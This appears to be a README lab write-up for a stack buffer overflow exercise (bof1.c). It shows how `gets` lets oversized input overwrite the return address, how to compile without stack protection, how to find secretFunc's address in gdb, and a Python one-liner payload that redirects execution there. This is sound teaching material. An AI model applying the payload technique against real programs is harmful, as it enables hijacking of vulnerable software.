





# bof1.c  
In this attack, we aim to overwrite the return address with the address of a different function (redirect control) using Python!  

# Stackframe

# Vulnerability  
At the function `gets(array);` the attacker can control the flow of execution by input larger than 200 bytes  

# Attack  
Compile file without stack protection  
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`

Run gdb  
`gdb bof1.out`
  

Disassemble the vuln function  
`disas vuln`
  

Disassemble secretFunc  
`disas secretFunc`
  
The address of 'secretFunc' is 0x0804846b  

To attack, based on the stackframe we need 204 bytes   
To quit  
`q`  
To generate create 204 bytes by generate 204 character 'a'  
`echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123`
 